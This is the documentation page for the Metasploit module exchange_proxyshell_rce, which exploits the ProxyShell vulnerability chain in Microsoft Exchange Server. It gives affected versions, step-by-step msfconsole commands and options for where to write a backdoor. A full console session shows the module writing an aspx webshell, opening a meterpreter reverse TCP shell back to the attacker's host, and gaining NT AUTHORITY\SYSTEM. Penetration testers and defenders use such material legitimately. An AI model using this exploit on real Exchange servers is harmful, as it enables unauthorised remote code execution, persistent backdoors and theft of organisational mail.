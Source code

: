 ## Vulnerable Application
This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker to bypass the authentication
(CVE-2021-31207), impersonate an arbitrary user (CVE-2021-34523) and write an arbitrary file (CVE-2021-34473) to achieve
the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft Exchange Server.

This vulnerability affects:

  * Exchange 2013 CU23 < 15.0.1497.15
  * Exchange 2016 CU19 < 15.1.2176.12
  * Exchange 2016 CU20 < 15.1.2242.5
  * Exchange 2019 CU8 < 15.2.792.13
  * Exchange 2019 CU9 < 15.2.858.9

*Source: [Description of the security update for Microsoft Exchange Server 2019, 2016, and 2013: April 13, 2021 (KB5001779)][1]*

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxyshell_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### EMAIL

A known email address for this organization. This email address must be to a user with privileges to access the Exchange
Management shell.

### UseAlternatePath

Use the IIS root dir as alternate path. Default: `false`

## Advanced Options

### BackendServerName

Force the name of the backend Exchange server targeted. Default: Automatic

If not set, the automatic method will use an RPC call to detect the backend server FQDN. This is required because the
kerberos-authenticated SSRF can only be sent when the FQDN is known.

### ExchangeBasePath

The base path where Exchange is installed. Default: `C:\Program Files\Microsoft\Exchange Server\V15`

### ExchangeWritePath

The path where you want to write the backdoor. Default: `owa\auth`

You can for example, set it to: `ecp\auth`

### IISBasePath

The base path where IIS wwwroot directory is. Default: `C:\inetpub\wwwroot`

### IISWritePath

The path where you want to write the backdoor. Default: `aspnet_client`

### MapiClientApp

This is MAPI client version sent in the request.

## Scenarios

### Exchange 2016 CU 19 on Server 2016

```
msf6 > use exploit/windows/http/exchange_proxyshell_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf6 exploit(windows/http/exchange_proxyshell_rce) > set EMAIL smcintyre@exchg.lan
EMAIL => smcintyre@exchg.lan
msf6 exploit(windows/http/exchange_proxyshell_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 exploit(windows/http/exchange_proxyshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-bpid95acq7e.exchg.lan
[*] Sending autodiscover request
[*] Server: cccb94e0-3175-4ec9-8e8a-62679d874384@exchg.lan
[*] LegacyDN: /o=Target Org/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=508ce51c27b544b38c33df31f99d3118-smcintyre
[*] Sending mapi request
[*] SID: S-1-5-21-2800676829-2777257591-1686523126-1000 (smcintyre@exchg.lan)
[*] Assigning the 'Mailbox Import Export' role
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\UhonV8RZ.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (200262 bytes) to 192.168.159.42
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\UhonV8RZ.aspx
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.42:6787) at 2021-08-17 17:32:26 -0400
[*] Removing the mailbox export request

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 6
Meterpreter     : x64/windows
meterpreter > 

```

[1]: https://support.microsoft.com/en-us/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-april-13-2021-kb5001779-8e08f3b3-fc7b-466c-bbb7-5d5aa16ef064
